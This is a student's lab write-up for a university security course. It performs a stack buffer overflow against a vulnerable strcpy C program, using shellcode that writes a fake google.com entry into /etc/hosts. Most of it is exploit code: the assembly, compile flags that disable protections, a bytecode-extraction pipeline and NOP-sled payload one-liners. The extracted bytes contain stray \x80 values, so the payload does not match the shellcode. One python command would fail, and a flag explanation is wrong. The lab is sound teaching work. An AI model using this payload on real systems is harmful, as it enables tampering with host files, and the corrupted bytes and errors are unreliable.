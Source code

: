 # Lab #1,22110073, Nguyen Cong Thuan, INSE331280E_02FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:

### Step 1: Create a Dockerfile to set up the environment
First, we need to create a Docker environment with all the necessary tools. Docker will help us set up an isolated and secure environment to test buffer overflow attacks without affecting the real system.
```
touch Dockerfile
```
Copy and paste the following into the Dockerfile:
```
FROM 32bit/ubuntu:16.04
ARG DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get -y install \   
    nasm \
    gcc \
    gdb \
    python3 \        
    python3-pip \    
    git \  
    nano \
    sudo \
    strace \
    libc6-dbg && \
    apt-get clean


RUN useradd -m -s /bin/bash seed && \
    echo "root:dees" | chpasswd && \
    echo "seed:dees" | chpasswd && \
    usermod -aG sudo seed  

USER seed
WORKDIR /home/seed
RUN mkdir seclabs
RUN git clone https://github.com/longld/peda.git ~/peda
RUN echo "source ~/peda/peda.py" >> ~/.gdbinit

CMD [ "/bin/bash"]
```
Build Docker Image:
```
docker build -t buffer_overflow_lab .
```

### Step 2: Create and compile the vulnerable C program

Create vuln.c file with the following content:
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

Compile C program: Start Docker container:
```
docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs buffer_overflow_lab
```
![image](/dockerbuild.png)

Inside the container, run the following command to compile the C program:
```
gcc -o vuln vuln.c -fno-stack-protector -z execstack -m32
```

- -fno-stack-protector: Disable stack protection to prevent buffer overflows.

- -z execstack: Enable code execution on the stack.

- -m32: Compile the program in 32-bit mode.

### Step 3: Write and compile the shellcode
Create a shellcode.asm file with the following content:
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

Compile the shellcode:
```
nasm -f elf32 shellcode.asm
ld -o shellcode shellcode.o
```

![image](/codecompile.png)
![image](/aftercompile.png)
### Step 4: Create payload and exploit the program
Generate shellcode in bytecode form: Extract bytecode from compiled shellcode file:
```
objdump -d shellcode | grep '[0-9a-f]:' | grep -oP '\s\K[0-9a-f]{2}' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```
![image](/shellcode.png)
- This is the binary bytecode of the shellcode, extracted from the shellcode.o file that you compiled from the assembly code (shellcode.asm).
- Each group of 4 characters, for example \x80\x31\xc9\x80, represents 1 byte of machine code. These bytes are specific instructions that are executed directly by the CPU when the shellcode is invoked.
- Use this bytecode string to exploit a buffer overflow vulnerability. This shellcode will be injected into the buffer of the vulnerable program and executed after you control the return address of the program.

Generate payload: Generate payload by combining NOP sled, shellcode, and return address:


```
python3 -c 'print("\x90"*100 + b"\x31\xc9\x80\xf7\xe1\x80\xb0\x05\x80\x51\x80\x68\x6f\x73\x74\x73\x80\x68\x2f\x2f\x2f\x68\x80\x68\x2f\x65\x74\x63\x80\x89\xe3\x80\x66\xb9\x01\x04\x80\xcd\x80\x80\x93\x80\x6a\x04\x80\x58\x80\xeb\x10\x80\x80\x59\x80\x6a\x14\x80\x5a\x80\xcd\x80\x80\x6a\x06\x80\x58\x80\xcd\x80\x80\x6a\x01\x80\x58\x80\xcd\x80\x80\xe8\xeb\xff\xff\xff\xca\x80\x80\x31\x32\x80\x37\xaa\x80\x2e\x31\x2e\x80\x31\x2e\x80\x31\x20\x80\x67\x6f\x80\x6f\x80\x67\x6c\x80\x65\x2e\x63\x6f\x6d" + b"\x40\xfc\xff\xbf")'
```
Run program with payload: Execute program with payload:
```
./vuln $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*100 + b"\x31\xc9\x80\xf7\xe1\x80\xb0\x05\x80\x51\x80\x68\x6f\x73\x74\x73\x80\x68\x2f\x2f\x2f\x68\x80\x68\x2f\x65\x74\x63\x80\x89\xe3\x80\x66\xb9\x01\x04\x80\xcd\x80\x80\x93\x80\x6a\x04\x80\x58\x80\xeb\x10\x80\x80\x59\x80\x6a\x14\x80\x5a\x80\xcd\x80\x80\x6a\x06\x80\x58\x80\xcd\x80\x80\x6a\x01\x80\x58\x80\xcd\x80\x80\xe8\xeb\xff\xff\xff\xca\x80\x80\x31\x32\x80\x37\xaa\x80\x2e\x31\x2e\x80\x31\x2e\x80\x31\x20\x80\x67\x6f\x80\x6f\x80\x67\x6c\x80\x65\x2e\x63\x6f\x6d" + b"\x40\xfc\xff\xbf")')

```